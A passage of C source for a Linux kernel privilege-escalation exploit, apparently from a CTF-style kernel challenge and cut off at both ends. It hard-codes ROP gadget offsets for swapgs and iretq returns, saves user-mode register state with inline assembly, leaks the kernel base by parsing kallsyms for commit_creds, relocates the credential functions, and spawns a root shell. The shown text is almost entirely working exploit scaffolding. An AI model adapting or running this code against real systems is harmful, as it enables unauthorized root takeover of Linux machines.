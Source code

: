 ```c
size_t mov_rdi_rax_jmp_rdx = 0x6a6d2;

size_t swapgs_popfq_ret = 0xa012da;
size_t iretq_ret = 0x50ac2;

size_t prepare_kernel_cred = 0x9cce0;
size_t vmlinux_base = 0;
size_t user_cs, user_ss, user_rflags, user_sp;

void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    info("status saved!",0);
}

void get_address(){
    FILE* fd = fopen("/tmp/kallsyms", "r");
    if(!fd){
        error("Cannot open file kallsyms");
    }
    char buf[0x100];
    size_t leak = 0;

    while(fgets(buf, 0x30, fd)){
        if (strstr(buf , "commit_creds")){
            sscanf(buf , "%lx" , &leak);
            vmlinux_base = leak - commit_creds;
            info("get vmlinux base" , 0);
            return;
        }
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
```